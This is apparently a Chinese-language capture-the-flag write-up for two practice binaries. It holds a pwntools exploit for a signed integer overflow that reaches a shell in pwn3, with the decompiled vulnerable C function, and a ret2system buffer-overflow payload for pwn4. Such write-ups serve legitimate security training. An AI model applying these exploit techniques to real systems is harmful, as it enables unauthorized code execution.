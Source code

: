 ### pwn3 int 符号整数溢出问题

0x7FFFFF9C + 100 = 负最大 满足条件

满足 3 条件
1.x > 100
2.x <= 0x7FFFFF9C
3.x + 100 <= 198
1 和 3 矛盾，找临界值 0x7FFFFF9C + 100 时为负最大。满足条件

```py
from pwn import *

file = './pwn3'
sh = process(file)
payload = 0x7FFFFF9C
sh.sendline(str(payload))
sh.interactive()
```

```c
int vuln()
{
  int v1; // [esp+Ch] [ebp-Ch]

  printf("请输入索引,确保索引大于100\n索引:");
  __isoc99_scanf("%d", &v1);
  if ( v1 <= 100 ) // 0x7FFFFF9C 大于100 过
  {
    puts("奥利给");
    exit(0);
  }
  if ( v1 > 0x7FFFFF9C ) // 0x7FFFFF9C 不大于 0x7FFFFF9C 过
  {
    puts("奥利给");
    exit(0);
  }
  printf("索引+100=%d\n", v1 + 100);
  if ( v1 + 100 > 198 ) // 0x7FFFFF9C 加100 = 负最大值 < 198 过
  {
    puts("索引+100值太大了,应该小于199");
    exit(0);
  }
  printf("奥利给");
  return shell();
}
```

### pwn4 ret2system + bin/sh

Shift+F12 能搜到 system, 能搜到 bin/sh

```python
from pwn import *

file = './pwn4'
sh = process(file)
system_addr = 0x08048410
bin_addr = 0x08048750

junk = 'a' * (0x88 + 4)
payload = flat(junk, system_addr, 0xdeadbeef, bin_addr)

sh.sendline(payload)
sh.interactive()
```
